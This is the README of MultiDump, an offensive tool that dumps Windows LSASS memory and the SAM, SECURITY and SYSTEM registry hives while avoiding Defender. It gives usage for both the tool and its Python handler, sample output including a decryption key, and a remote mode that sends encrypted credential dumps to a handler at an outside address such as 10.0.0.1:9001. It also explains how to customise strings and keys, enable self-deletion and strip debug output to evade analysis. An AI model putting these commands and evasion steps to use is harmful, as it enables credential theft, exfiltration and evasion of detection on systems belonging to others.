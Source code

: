 ## MultiDump

MultiDump is a post-exploitation tool written in C for dumping and extracting LSASS memory discreetly, without triggering Defender alerts, with a handler written in Python.

![](multidump-defender.gif)

Blog post: https://xre0us.io/posts/multidump

MultiDump supports LSASS dump via `ProcDump.exe` or `comsvc.dll`, it offers two modes: a local mode that encrypts and stores the dump file locally, and a remote mode that sends the dump to a handler for decryption and analysis.

## Usage

```powershell
    __  __       _ _   _ _____
   |  \/  |_   _| | |_(_)  __ \ _   _ _ __ ___  _ __
   | |\/| | | | | | __| | |  | | | | | '_ ` _ \| '_ \
   | |  | | |_| | | |_| | |__| | |_| | | | | | | |_) |
   |_|  |_|\__,_|_|\__|_|_____/ \__,_|_| |_| |_| .__/
                                               |_|

Usage:  MultiDump.exe [-p <ProcDumpPath>] [-l <LocalDumpPath> | -r <RemoteHandlerAddr>] [--procdump] [-v]

-p              Path to save procdump.exe, use full path. Default to temp directory
-l              Path to save encrypted dump file, use full path. Default to current directory
-r              Set ip:port to connect to a remote handler
--procdump      Writes procdump to disk and use it to dump LSASS
--nodump        Disable LSASS dumping
--reg           Dump SAM, SECURITY and SYSTEM hives
--delay         Increase interval between connections to for slower network speeds
-v              Enable verbose mode

MultiDump defaults in local mode using comsvcs.dll and saves the encrypted dump in the current directory.
Examples:
        MultiDump.exe -l C:\Users\Public\lsass.dmp -v
        MultiDump.exe --procdump -p C:\Tools\procdump.exe -r 192.168.1.100:5000
```

```bash
usage: MultiDumpHandler.py [-h] [-r REMOTE] [-l LOCAL] [--sam SAM] [--security SECURITY] [--system SYSTEM] [-k KEY] [--override-ip OVERRIDE_IP]

Handler for RemoteProcDump

options:
  -h, --help            show this help message and exit
  -r REMOTE, --remote REMOTE
                        Port to receive remote dump file
  -l LOCAL, --local LOCAL
                        Local dump file, key needed to decrypt
  --sam SAM             Local SAM save, key needed to decrypt
  --security SECURITY   Local SECURITY save, key needed to decrypt
  --system SYSTEM       Local SYSTEM save, key needed to decrypt
  -k KEY, --key KEY     Key to decrypt local file
  --override-ip OVERRIDE_IP
                        Manually specify the IP address for key generation in remote mode, for proxied connection
```

As with all LSASS related tools, Administrator/SeDebugPrivilege priviledges are required.

The handler depends on [Pypykatz](https://github.com/skelsec/pypykatz) to parse the LSASS dump, and [impacket](https://github.com/fortra/impacket) to parse the registry saves. They should be installed in your enviroment. If you see the error `All detection methods failed`, it's likely the Pypykatz version is outdated.

By default, MultiDump uses the `Comsvc.dll` method and saves the encrypted dump in the current directory.

```powershell
MultiDump.exe
...
[i] Local Mode Selected. Writing Encrypted Dump File to Disk...
[i] C:\Users\MalTest\Desktop\dciqjp.dat Written to Disk.
[i] Key: 91ea54633cd31cc23eb3089928e9cd5af396d35ee8f738d8bdf2180801ee0cb1bae8f0cc4cc3ea7e9ce0a74876efe87e2c053efa80ee1111c4c4e7c640c0e33e
```

```bash
./ProcDumpHandler.py -f dciqjp.dat -k 91ea54633cd31cc23eb3089928e9cd5af396d35ee8f738d8bdf2180801ee0cb1bae8f0cc4cc3ea7e9ce0a74876efe87e2c053efa80ee1111c4c4e7c640c0e33e
```

If `--procdump` is used, `ProcDump.exe` will be writtern to disk to dump LSASS.

In remote mode, MultiDump connects to the handler's listener.

```bash
./ProcDumpHandler.py -r 9001
[i] Listening on port 9001 for encrypted key...
```

```powershell
MultiDump.exe -r 10.0.0.1:9001
```

The key is encrypted with the handler's IP and port. When MultiDump connects through a proxy, the handler should use the `--override-ip` option to manually specify the IP address for key generation in remote mode, ensuring decryption works correctly by matching the decryption IP with the expected IP set in MultiDump `-r`.

An additional option to dump the `SAM`, `SECURITY` and `SYSTEM` hives are available with `--reg`, the decryption process is the same as LSASS dumps. This is more of a convenience feature to make post exploit information gathering easier.

### Building MultiDump

Open in Visual Studio, build in **Release** mode.

### Customising MultiDump

It is recommended to customise the binary before compiling, such as changing the static strings or the RC4 key used to encrypt them, to do so, another Visual Studio project `EncryptionHelper`, is included. Simply change the key or strings and the output of the compiled `EncryptionHelper.exe` can be pasted into `MultiDump.c` and `Common.h`.

Self deletion can be toggled by uncommenting the following line in `Common.h`:

```c
#define SELF_DELETION
```

To further evade string analysis, most of the output messages can be excluded from compiling by commenting the following line in `Debug.h`:

```c
//#define DEBUG
```

---

MultiDump might get detected on Windows 10 22H2 (19045) (sort of), and I have implemented a fix for it (sort of), the investigation and implementation deserves a blog post itself: https://xre0us.io/posts/saving-lsass-from-defender/

## Credits

- Some techniques used learnt from [MalDev Academy](https://maldevacademy.com), it is an awesome course, highly recommended
- Inspired by [proc_noprocdump](https://github.com/djackreuter/proc_noprocdump)
- Code to further process LSASS dump from [lsassy](https://github.com/Hackndo/lsassy)
- Testing and suggestions from [ballro](https://github.com/ballro)
- Testing and suggestions from [DisplayGFX](https://github.com/DisplayGFX), [nthdeg](https://github.com/nthdeg) and silentbee